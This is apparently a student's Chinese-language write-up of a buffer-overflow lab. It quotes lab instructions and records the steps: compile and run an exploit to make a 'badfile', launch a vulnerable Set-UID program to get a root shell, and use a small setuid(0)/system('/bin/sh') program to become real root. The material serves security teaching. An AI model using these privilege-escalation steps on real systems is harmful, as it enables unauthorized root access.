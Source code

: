 > 完成上述程序后，编译并运行它。这将生成“badfile”的内容。然后运行易受攻击的程序`堆栈`。如果你的漏洞利用被正确实现，你应该能够获得一个 root shell：

> **重点**：请先编译您的易受攻击的程序。请注意，生成坏文件的程序exploit.c 可以在启用默认堆栈防护保护的情况下进行编译。这是因为我们不会在这个程序中溢出缓冲区。我们将溢出 stack.c 中的缓冲区，该缓冲区在编译时启用了默认的 Stack Guard 保护。

```bash
  $ gcc -o exploit exploit.c
  $./exploit        // create the badfile
  $./stack          // launch the attack by running the vulnerable program
  # <---- Bingo! You've got a root shell! 
```

重新编译运行 exploit.c 程序，再运行 stack。

```bash
gcc -o exploit exploit.c
./exploit
./stack 
```

获得了 root shell。

![image-20220321232648583](BufferOverflow/image-20220321232648583.png)

> 需要注意的是，虽然你得到了“#”提示符，但你的真实用户id仍然是你自己（有效用户id现在是root）。您可以通过键入以下内容进行检查：

```bash
# id
uid=(500) euid=0(root)
```

![](BufferOverflow/image-20220321232648584-16478765261971.png)

> 如果许多命令作为 `Set-UID` `root`进程而不是仅仅作为`root`进程执行，它们的行为会有所不同，因为它们识别出真正的用户 id 不是`root`。要解决这个问题，您可以运行以下程序将真实用户 id 变为 `root`。这样，您将拥有一个真正的`root`进程，它更强大。

```c
/* attack.c*/
void main()
{ 
  setuid(0);  
  system("/bin/sh");
}
```

先退出root吧，编译attack.c

```bash
exit

gcc attack.c -o attack

./attack
id
```
